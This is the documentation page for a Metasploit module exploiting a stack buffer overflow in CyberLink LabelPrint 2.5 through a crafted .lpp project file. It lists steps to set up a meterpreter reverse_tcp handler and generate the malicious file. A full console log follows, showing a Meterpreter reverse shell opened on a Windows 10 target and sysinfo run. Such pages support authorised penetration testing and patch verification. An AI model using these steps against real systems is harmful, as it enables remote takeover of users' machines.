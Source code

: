 ## Description

This module exploits a stack buffer overflow in CyberLink LabelPrint 2.5 and below.
The vulnerability is triggered when opening a .lpp project file containing overly long string characters
via open file menu. This results in overwriting a structured exception handler record and take over the
application. This module has been tested on Windows 7 (64 bit), Windows 8.1 (64 bit), and Windows 10 (64 bit).

## Vulnerable Application

CyberLink LabelPrint v2.5, which is available with [Power2Go 12 Essential](https://www.cyberlink.com/downloads/trials/power2go-platinum/download_en_US.html)

## Verification Steps

1. `./msfconsole`
2. `use exploit/multi/handler`
3. `set payload windows/meterpreter/reverse_tcp`
4. `set lhost <lhost>`
5. `set exitonsession false`
6. `exploit -j`
7. `use windows/fileformat/cyberlink_lpp_bof`
8. `set lhost <lhost>`
9. `set target 2`
10. `exploit`
11. Copy file to Win10 host and open in vulnerable software
12. Get a shell

## Scenarios

### Tested Windows 10 x64 running CyberLink LabelPrint v2.5

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.132 
lhost => 172.22.222.132
msf5 exploit(multi/handler) > set exitonsession false
exitonsession => false
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/handler) >
[*] Started reverse TCP handler on 172.22.222.132:4444
use windows/fileformat/cyberlink_lpp_bof
msf5 exploit(windows/fileformat/cyberlink_lpp_bof) > set lhost 172.22.222.132 
lhost => 172.22.222.132
msf5 exploit(windows/fileformat/cyberlink_lpp_bof) > set target 2
target => 2
msf5 exploit(windows/fileformat/cyberlink_lpp_bof) > exploit

[*] Creating 'msf.lpp' file ...
[+] msf.lpp stored at /home/msfdev/.msf4/local/msf.lpp
msf5 exploit(windows/fileformat/cyberlink_lpp_bof) >
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.132:4444 -> 172.22.222.200:50522) at 2018-12-11 06:24:38 -0600
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.22.222.200 - Meterpreter session 1 closed.  Reason: User exit
```
